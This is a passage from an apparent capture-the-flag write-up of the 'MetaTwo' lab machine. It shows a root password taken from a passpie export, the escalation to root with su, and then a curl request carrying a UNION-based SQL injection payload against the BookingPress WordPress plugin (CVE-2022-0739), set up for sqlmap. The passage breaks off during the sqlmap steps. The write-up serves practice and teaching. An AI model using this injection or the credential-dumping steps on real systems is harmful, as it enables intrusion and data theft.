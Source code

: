 	```
	jnelson@meta2:~$ passpie export password
	Passphrase: blink182
	jnelson@meta2:~$ cat password
	credentials:
	- comment: ''
	  fullname: root@ssh
	  login: root
	  modified: 2022-06-26 08:58:15.621572
	  name: ssh
	  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
	- comment: ''
	  fullname: jnelson@ssh
	  login: jnelson
	  modified: 2022-06-26 08:58:15.514422
	  name: ssh
	  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
	handler: passpie
	version: 1.0
	jnelson@meta2:~$
	```

	> Valid Credential
	> - `root:p7qfAZt4_A1xo_0x` 
	{: .prompt-info}

4. Switch to `root` 
	```
	jnelson@meta2:~$ su root
	Password:
	root@meta2:/home/jnelson# id;whoami; cat /root/root.txt
	uid=0(root) gid=0(root) groups=0(root)
	root
	ce890296849507842a811feaed595c2a
	root@meta2:/home/jnelson#
	```



# Additional 
## SQLMap
1. Instead of using [Chris01s](https://github.com/Chris01s)/**[CVE-2022-0739](https://github.com/Chris01s/CVE-2022-0739)**, we can use SQLMap to exfiltrate more information
2. We have to follow [these](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357) steps in order to obtain the `POST` request to do SQLi 
	1. First, we have to find out the `nonce`, we can do by viewing the page source of `http://metapress.htb/events/`
		 ![]({{ page.img_path }}Pasted%20image%2020221130114442.png)
		 > wpnonce: `221f0d0bf9`
		 {: .prompt-info}
	2. Next, we have to invoke a `curl` command w/ SQLi Payload
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# curl -i 'http://metapress.htb/wp-admin/admin-ajax.php'   --data 'action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' -x http://127.0.0.1:8080
		```
	3. Intercept request w/ `burp` & remove SQLi Payload and save request
		![]({{ page.img_path }}Pasted%20image%2020221130115229.png)
4. SQLMap
	1. Enumerate `databases`
		```